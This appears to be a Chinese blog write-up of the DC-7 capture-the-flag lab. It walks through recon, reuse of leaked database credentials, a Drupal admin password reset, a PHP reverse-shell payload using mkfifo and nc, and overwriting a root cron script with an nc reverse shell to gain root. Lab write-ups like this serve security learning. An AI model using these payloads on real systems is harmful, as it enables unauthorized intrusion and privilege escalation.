 ```yaml
---
layout: post
title: DC-7
subtitle: DC-7
date: 2025-07-16 09:47
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. 信息搜集

ip扫描发现 `192.168.163.131`

![image.png](https://img.ghostliner.top/8pzokb.png)

nmap扫描端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/7M8xan.png)

访问站点发现特殊字符串

![image.png](https://img.ghostliner.top/RdFxZA.png)

必应搜索 `DC7USER` 发现GitHub项目 `staffdb`
[Dc7User/staffdb](https://github.com/Dc7User/staffdb)

在配置文件中发现mysql数据库连接配置

![image.png](https://img.ghostliner.top/EfjNcG.png)

```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

## 2. 渗透测试

使用该用户名密码进行SSH连接，成功

查看目录，发现mbox邮件文件和网站备份文件

![image.png](https://img.ghostliner.top/LC5ABy.png)

查看mbox文件，发现定时执行脚本：`/opt/scripts/backups.sh`

查看 `/var/mail/dc7user` 文件，发现自动化任务间隔15分钟

![image.png](https://img.ghostliner.top/WVsmvH.png)

查看脚本权限，发现当前用户无法写入，但是 `www-data`可以

![image.png](https://img.ghostliner.top/OoOhy8.png)

查看脚本内容：

```shell
#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz
```

发现drush命令：[dupal 瑞士军刀：drush 命令大全](https://www.dwoke.com/node/436)

### 2.1. 用户提权

尝试www-data用户提权

```shell
cd /var/www/html
# 更改admin用户密码
drush user-password admin --password="admin"
```

![image.png](https://img.ghostliner.top/pDzFGN.png)

网站登录成功，尝试反弹shell获取 `www-data`用户权限，以更改 `backups.sh`脚本

安装插件： <https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz>

![image.png](https://img.ghostliner.top/yk1FYQ.png)

开启插件
![image.png](https://img.ghostliner.top/E4bbaT.png)

勾选，点击页面最下方 `install`

### 2.2. 反弹shell

在文章中添加脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 >/tmp/f');?>
```

![image.png](https://img.ghostliner.top/CxupAM.png)

反弹shell成功，编辑 `/opt/scripts/backups.sh` 文件

```shell
echo "nc -nv 192.168.163.132 5555 -e /bin/bash" >/opt/scripts/backups.sh
```

反弹shell成功，获取到root权限

![image.png](https://img.ghostliner.top/2aDj41.png)

### 2.3. 查看flag

```shell
python -c "import pty;pty.spawn('/bin/bash')"
cat /root/theflag.txt
```

![image.png](https://img.ghostliner.top/tX2DGp.png)
